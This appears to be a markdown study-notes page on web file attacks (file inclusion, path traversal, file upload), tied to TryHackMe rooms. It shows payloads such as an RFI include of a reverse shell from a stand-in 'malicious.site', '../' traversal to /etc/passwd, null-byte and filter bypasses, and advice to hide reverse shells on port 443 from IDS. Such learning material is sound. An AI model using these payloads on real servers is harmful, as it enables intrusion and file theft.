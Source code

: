 # Files/Paths exploits

> It advised to not use potential vulnerable forms to send data, as the data effectively send might not be what you entered.<br>
> Use tools such as [BurpSuite](/cyber/server/web/burpsuite/index.md), or `curl`.

<hr class="sl">

## File inclusion

[![fileinc](../../../_badges/thmp/fileinc.svg)](https://tryhackme.com/room/fileinc)

<div class="row row-cols-md-2"><div>

Files inclusion refer to websites that are importing <small>(`import/require` in PHP)</small> a file using the user input. For instance: `http://malicious.site/?lang=FR` that is doing a include using `$_GET["lang"]`.

In the following include with no filtering, we may enter a path 

```php
include "lang/$_GET[lang].php"
```

**PHP < 5.3.4**: if the programmer appended an extension, such as `.php`, but you want to bypass it, you can use the **Null Byte** `%00` which indicates the end of a string.

```php
include "xxx.cgi%00.php" // include xxx.cgi
```

</div><div>

**Local File Inclusion (LFI)** 🏠: inject a local file

```php
// you uploaded a reverse shell (avatar.png)
// as your avatar, then
include "lang/../uploads/avatar.png.php"
```

See Path traversal.

**Remote File Inclusion (RFI)** ✈️: inject a remote file

```php
// allow_url_fopen MUST BE SET TO true
include "http://malicious.site/reverse_shell.php"
```
</div></div>

<hr class="sr">

## Path/directory traversal

[![fileinc](../../../_badges/thmp/fileinc.svg)](https://tryhackme.com/room/fileinc)

<div class="row row-cols-md-2"><div>

This is an attack where a hacker will manage to access files/folders that were not supposed to be available for users by exploiting the application. 

In PHP for instance, developers may be use `file_get_contents(URL)` to download an avatar for instance given a URL. The problem is that this kind of function may be used to access a local file. If the file is displayed, or stored somewhere where you can read it such as in `/uploads`, then you may be able to 

* test if a port is open
* access private files such as `/etc/passwd`/`windows/win.ini`
* ...

For instance, a URL such as `http://example.com/image-preview.php?url=...` that is supposed to display an image given a URL, may be vulnerable to path traversal.
</div><div>

You can use the **dot-dot-slash attack**, and give an URL such as `../../../../../etc/passwd`. Note that `/../` is `/`, so if you add more `../` than needed, it's OK.

**Bypass filters**: if you know that a filter will replace a string, then you may create a string that will do what you want AFTER being filtered, such as `....//`. If the filter is removing `../`, then after filtering `..` and `/` will be concatenated, giving us back `../`.

If there are client-side filtering, you may use [BurpSuite](/cyber/server/web/burpsuite/index.md), or `curl`

```bash
$ curl URL/vulnerable.php -d 'file=/etc/flag1' -H 'Content-Type: application/x-www-form-urlencoded'
```
</div></div>

<hr class="sl">

## File upload

<div class="row row-cols-md-2"><div>

A hacker could try to upload a script, and then find a way to run it. The script usually open a **reverse shell**, meaning a shell on the target, that can be access from the hacker computer.

**Bypass filters**

* Try `xxx.png.php` to bypass stupid filters
* Try the null byte `xxx.php%00.png` <small>(PHP < 5.3.4)</small>
* Try intercepting the request, changing the content type, if the server is only checking the content-type.

> Do not use public/folders available to the user, if it's not needed. If you still do, do not use common names that could be found with forced browsing.
</div><div>

**Reverse shell**

To avoid alerting IDS, the reverse shell should use a port that would not be suspected such as `443` (HTTPS).
</div></div>